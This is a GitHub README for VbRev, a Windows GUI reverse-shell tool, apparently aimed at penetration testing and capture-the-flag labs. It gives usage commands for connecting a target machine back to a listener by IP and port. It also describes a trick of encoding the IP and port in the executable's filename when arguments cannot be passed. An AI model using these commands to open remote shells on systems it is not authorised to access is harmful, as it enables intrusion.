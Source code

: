 # VbRev
A GUI alternative to netcat etc for reverse shells on Windows machines.


## How to get it
Alpha release (v0.4) is now available to download under the **Releases** section on the right hand side of the page (or wherever github have moved that to this week)

## Usage

On your own machine just launch **VbRevUi.exe** and click Start Listener

On the server side pass in the IP of your machine and the port you're listening on:

`VbRev.exe 10.10.12.30 4444`

 If you are unable to pass arguments, name the exe like so: `VbRev_xxx_yyy.exe` where xxx is your IP address or hostname and yyy is the port number. So to connect to the same IP and port as the example above:
 
 `VbRev_10.10.12.30_4444.exe`
   

## Screenshots

![img1](https://raw.githubusercontent.com/VbScrub/VbRev/master/images/VbRev1.png)

![img2](https://raw.githubusercontent.com/VbScrub/VbRev/master/images/VbRev2.png)

![img3](https://raw.githubusercontent.com/VbScrub/VbRev/master/images/VbRev3.png)

![img4](https://raw.githubusercontent.com/VbScrub/VbRev/master/images/VbRev4.png)

![img5](https://raw.githubusercontent.com/VbScrub/VbRev/master/images/VbRev5.png)

![img6](https://raw.githubusercontent.com/VbScrub/VbRev/master/images/VbRev6.png)

